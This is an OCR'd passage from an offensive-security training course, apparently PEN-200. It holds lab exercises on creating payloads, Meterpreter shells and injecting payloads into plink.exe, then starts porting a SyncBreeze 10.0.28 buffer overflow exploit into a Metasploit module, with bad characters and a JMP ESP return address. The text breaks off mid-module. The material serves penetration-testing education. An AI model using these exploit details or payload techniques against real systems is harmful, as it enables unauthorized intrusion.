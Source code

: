 22.3.7.1 Exercises


1.Create a staged and a non-staged Linux binary payload to use on your Kali system.

2.Setup a Netcat listener and run the non-staged payload. Does it work?


3.Setup a Netcat listener and run the staged payload. Does it work?


4.Get a Meterpreter shell on your Windows system. Practice file transfers.
 
 
5.Inject a payload into plink.exe. Test it on your Windows system.
 
6.Create an executable file running a Meterpreter payload and execute it on your  Windowssystem.
 
7.After establishing a Meterpreter connection, setup a new transport type and change to it.
22.4 Building Our Own MSF Module

22.4 Building Our Own MSF Module 706

 The Ruby language and exploit structure are clear, straight forward, and very similar to Python. 
 
 To show how this works, we will port our SyncBreeze Python exploit to the Metasploit format, using an existing exploit in theframework as a template and copying it to the established folder structure under the homedirectory of the root user.

kali@kali:~$ sudo mkdir -p /root/.msf4/modules/exploits/windows/http
kali@kali:~$ sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/dis
k_pulse_enterprise_get.rb /root/.msf4/modules/exploits/windows/http/syncbreeze.rb
kali@kali:~/.msf4/modules/exploits/windows/http$ sudo nano /root/.msf4/modules/exploit
s/windows/http/syncbreeze.rb


• To begin, we will update the header information, including the name of the module, its description,author, and external references.

'Name' => 'SyncBreeze Enterprise Buffer Overflow',
'Description' => %q(
 This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.
),
'License' => MSF_LICENSE,
'Author' => [ 'Offensive Security', 'offsec' ],
'References' =>
 [
 [ 'EDB', '42886' ]
 ],

• In the next section, we will select the default options. 

• In this case, we will set EXITFUNC to “thread”and specify the bad characters we found, which are \x00\x0a\x0d\x25\x26\x2b\x3d. 

• Finally, in theTargets section, we will specify the version of SyncBreeze along with the address of the JMP ESPinstruction and the offset used to overwrite EIP.

'DefaultOptions' =>
 {
 'EXITFUNC' => 'thread'
 },
'Platform' => 'win',
'Payload' =>
 {
 'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
 'Space' => 500
 },
'Targets' =>
 [
 [ 'SyncBreeze Enterprise 10.0.28',
 {
 'Ret' => 0x10090c83, # JMP ESP -- libssp.dll